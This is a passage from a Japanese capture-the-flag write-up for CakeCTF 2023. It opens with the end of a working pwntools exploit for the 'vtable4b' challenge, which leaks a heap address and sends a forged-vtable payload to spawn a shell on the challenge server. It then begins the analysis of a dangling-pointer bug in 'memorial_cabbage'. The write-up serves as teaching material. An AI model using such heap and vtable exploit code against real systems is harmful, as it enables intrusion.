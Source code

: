 ```py
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)

    t.recvuntil(b"<win> = ")
    buf = t.recvline().strip()
    win = int(buf, 16)
    success(f'{win=:x}')
    sla(b"> ", i2b(3))
    buf = t.recvuntil(b"vtable for")
    addrs = re.findall(r"0x[0-9a-f]*ed0", buf.decode())
    assert len(addrs) == 1
    heap_addr = int(addrs[0].encode(), 16)
    success(f"{heap_addr=:x}")
    sla(b"> ", i2b(2))
    message = heap_addr - 0x20
    p_vtable = heap_addr - 0x18
    sla(
        b"> ",
        p64(win) * 3 + p64(0x21) + p64(p_vtable) + p64(message) + p64(0) + p64(0xF121),
    )

    t.interactive()


local = 0
debug = 1
radare = 0

elf_name = ""
libc_name = ""
remote_addr, remote_port = "vtable4b.2023.cakectf.com 9000".split()
# elf: ELF = ELF(elf_name)
# libc: ELF = ELF(libc_name)
script = """
"""
t = create_io()
solve()
```

# [pwn] memorial_cabbage

## 分析

`/tmp`配下にディレクトリを作成し、その中に`memo.txt`というファイルを作成します。
その後、ユーザーからの入力を受け取り`memo.txt`に書き込むという単純なメモアプリのようです。

`setup`関数の中で`mkdtemp`を呼び出している箇所に脆弱性があります。

```c
static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;
  ...
  if (!(tempdir = mkdtemp(template))) {
  ...
  }
```
